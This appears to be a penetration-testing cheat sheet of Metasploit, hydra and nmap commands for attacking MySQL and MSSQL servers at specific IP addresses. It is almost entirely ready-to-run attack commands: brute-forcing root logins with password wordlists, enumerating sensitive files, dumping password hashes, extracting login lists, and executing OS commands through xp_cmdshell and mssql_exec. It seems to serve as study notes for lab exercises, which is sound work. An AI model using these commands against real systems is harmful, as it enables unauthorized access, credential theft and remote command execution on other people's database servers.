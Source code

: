 - using msfconsole how many sensitive file are there
	>use auxiliary/scanner/mysql/mysql_file_enum 
	>set RHOSTS 192.71.145.3 
	>set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt 
	>set username root
	>set PASSWORD "" 
	>exploit

- `hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.149.194.3 mysql` -- to brute force the login 
- using msfconsole
	> msfconsole 
	> use auxiliary/scanner/mysql/mysql_login 
	> set RHOSTS 192.149.194.3 
	> set USERNAME root 
	> set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 
	> set VERBOSE false 
	> set STOP_ON_SUCCESS true 
	> exploit


- `nmap 10.12.23.4 -p 1433 --script ms-sql-info` --  to get MSSql info
- `nmap 10.12.23.4 -p 1433 --script ms-ntlm-sql-info --script-args mssql.instance.port=1433` --  to get MSSql NTLM info
- using msfconsole to find all possible info
	> use auxiliary/admin/mssql/mssql_enum 
	> set RHOSTS 10.0.20.101 
	> exploit
- `nmap 10.12.23.4 -p 1433 --script ms-sql-brute --script-args userdb=/path/to/file, passdb=/path/to/file` -- to brute force login
- using msfconsole
	> use auxiliary/scanner/mssql/mssql_login 
	> set RHOSTS 10.0.20.101 
	> set USER_FILE /root/Desktop/wordlist/common_users.txt 
	> set PASS_FILE /root/Desktop/wordlist/100-common-passwords.txt
	> set VERBOSE false 
	> exploit

- using msfconsole Extract all MSSQL users
	> use auxiliary/admin/mssql/mssql_enum_sql_logins 
	> set RHOSTS 10.0.20.101 
	> exploit
- `nmap 10.12.23.4 -p 1433 --script ms-sql-empty-password` -- to check if there is empty password
- `nmap 10.12.23.4 -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=<USERNAME>,mssql.password=<PASSWORD>` -- to dump password hash
- `nmap 10.12.23.4 -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=<USERNAME>,mssql.password=<PASSWORD>,ms-sql-cp-cmdshell.cmd="<CMD>"` -- to execute the cmd via mssql
- using msfconsole
	> use auxiliary/admin/mssql/mssql_exec 
	> set RHOSTS 10.0.20.101 
	> set CMD whoami 
	> exploit
- `nmap -p 1433 --script ms-sql-query --script-args mssql.username=<USERNAME>,mssql.password=<PASSWORD>,ms-sql-query.query="SELECT * FROM master..syslogins" 10.0.30.33` -- to execute query to extract sysusers

---
---


